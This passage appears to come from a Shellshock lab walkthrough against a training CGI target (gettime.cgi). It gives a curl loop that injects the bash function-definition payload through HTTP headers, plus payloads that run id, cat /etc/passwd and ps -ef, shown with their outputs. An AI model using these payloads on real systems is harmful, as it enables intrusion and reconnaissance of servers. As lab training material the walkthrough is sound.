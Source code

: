 ### Testing Multiple Headers
```bash
# Test all common headers
for header in "User-Agent" "Referer" "Cookie" "Accept"; do
    curl -H "$header: () { :; }; echo; echo; /bin/bash -c 'id'" \
         http://demo.ine.local/gettime.cgi
done
```

---

## 📋 Complete Lab Walkthrough (From Images)

This section provides the exact commands and outputs from the actual lab environment:

### Lab Environment:
- **Target:** demo.ine.local (192.88.83.3)
- **Vulnerable CGI:** /gettime.cgi  
- **User Context:** daemon (uid=1, gid=1)
- **Web Server:** Apache/2.4.6 (Unix)

### Command Execution Results:

#### 1. File System Reconnaissance
**Command:** `cat /etc/passwd`
**Payload:** `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`

**Key Users Identified:**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

#### 2. User Context Verification  
**Command:** `id`
**Payload:** `() { :; }; echo; echo; /bin/bash -c 'id'`

**Result:** `uid=1(daemon) gid=1(daemon) groups=1(daemon)`
- Running as daemon user
- Limited privileges but sufficient for reconnaissance

#### 3. Process Enumeration
**Command:** `ps -ef`  
**Payload:** `() { :; }; echo; echo; /bin/bash -c 'ps -ef'`

**Key Findings:**
```
root     1     0  0 06:21 ?    00:00:00 /usr/bin/python
daemon  18    17  0 06:21 ?    00:00:00 /opt/apache/bin/httpd -X
/usr/local/bash-4.3.0/bin/bash /opt/apache/htdocs/gettime.cgi
```
- Apache running as daemon user
- Vulnerable Bash version 4.3.0 identified
- Python process running as root (potential escalation target)
